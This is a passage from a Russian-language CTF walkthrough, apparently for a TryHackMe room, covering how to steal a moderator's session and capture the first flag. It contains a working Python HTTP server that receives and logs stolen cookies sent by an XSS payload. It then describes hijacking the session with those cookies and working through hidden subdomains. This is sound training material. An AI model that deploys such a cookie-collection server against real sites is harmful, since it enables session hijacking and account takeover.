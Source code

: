``` server.py
                    f.write(f"[{timestamp}] {cookies}\n")
                
                # Выводим в консоль
                print(f"🎯 Получены cookie: {cookies}")
            
            # Отправляем ответ
            self.send_response(200)
            self.send_header('Content-type', 'text/html')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            self.wfile.write(b'OK')
        else:
            self.send_response(404)
            self.end_headers()

def run_server(port=8000):
    server_address = ('', port)
    httpd = HTTPServer(server_address, RequestHandler)
    print(f"🚀 Сервер запущен на порту {port}")
    print("📝 Ожидаем cookie...")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()
```

После отправки payload'а на сервер, ждем какое то время и получаем куки:
<img width="971" height="103" alt="image" src="https://github.com/user-attachments/assets/566e6e73-d235-4f4e-aedd-8b6ab554e2c4" />

Вставляем cookie себе, обновляем страницу и попадаем на форму /dashboard.php модератора

Если вводить данные в поля и пытаться отправить их - ничего не получится, выходит ошибка "Sharing your thoughts feature is currently disabled."

Однако здесь мы можем увидеть одну заметку модератора с подсказкой:
<img width="1912" height="728" alt="image" src="https://github.com/user-attachments/assets/041c4ab1-7e23-4dad-8e10-363e740df559" />

Следуя подсказке добавляем в /etc/hosts новый домен login.worldwap.thm и переходим на него

Открывается пустая страница, заглянем в код и найдем еще одну наводку:
<img width="1919" height="731" alt="image" src="https://github.com/user-attachments/assets/1d18a2e7-b0c0-497d-9dd5-777a811d28c2" />

Пробуем перейти по login.worldwap.thm/login.php (не забываем поменять куки на модераторские)

Мы попадаем в профиль модератора и получаем первый флаг:
<img width="1919" height="795" alt="image" src="https://github.com/user-attachments/assets/6f58a1e6-bc24-404c-bb09-e2db847debc3" />

### Flag 2

Заходим в чаты и видим чат с админом
<img width="1914" height="893" alt="image" src="https://github.com/user-attachments/assets/d39c24d3-e06c-4d91-9ccb-8d5c1e909bfe" />
